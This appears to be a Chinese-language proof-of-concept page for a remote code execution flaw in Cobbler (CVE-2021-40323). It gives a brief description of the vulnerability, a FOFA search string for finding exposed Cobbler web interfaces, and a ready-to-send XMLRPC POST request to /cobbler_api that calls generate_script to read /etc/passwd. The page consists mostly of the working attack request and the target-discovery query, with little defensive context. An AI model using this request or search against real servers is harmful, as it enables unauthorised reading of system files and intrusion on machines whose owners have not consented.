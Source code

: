 ## Cobbler存在远程命令执行漏洞(CVE-2021-40323)

Cobbler是一款专注于自动化Linux系统安装和配置管理的工具，可帮助管理员快速部署服务器并确保配置一致性，支持多种操作系统和提供多项功能强大的特性，如Kickstart配置、PXE引导、DHCP管理等，提升系统管理效率和可靠性。

该产品在3.3.0之前版本存在远程代码执行漏洞，该漏洞源于外部输入数据构造代码段的过程中，网络系统或产品未能正确过滤其中的特殊元素，攻击者可利用该漏洞通过特制的XMLRPC方法记录日志文件以进行模板注入，从而导致日志中毒和远程代码执行。

## fofa
```
"Cobbler Web Interface"
```
![image](https://github.com/user-attachments/assets/b62ea753-f084-471f-8f8e-33762ccb6f11)


## poc
```
POST /cobbler_api HTTP/1.1
Host: xxx
Content-Length: 0
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

<?xml version='1.0'?>
        <methodCall>
          <methodName>generate_script</methodName>
          <params>
            <param>
              <value>
                <string>centos6-x86_64</string>
              </value>
            </param>
            <param>
              <value>
                <string></string>
              </value>
            </param>
            <param>
              <value>
                <string>/etc/passwd</string>
              </value>
            </param>
          </params>
        </methodCall>
```

![image](https://github.com/wy876/POC/assets/139549762/bbe19773-779d-4591-b957-28cfc9bf8bce)
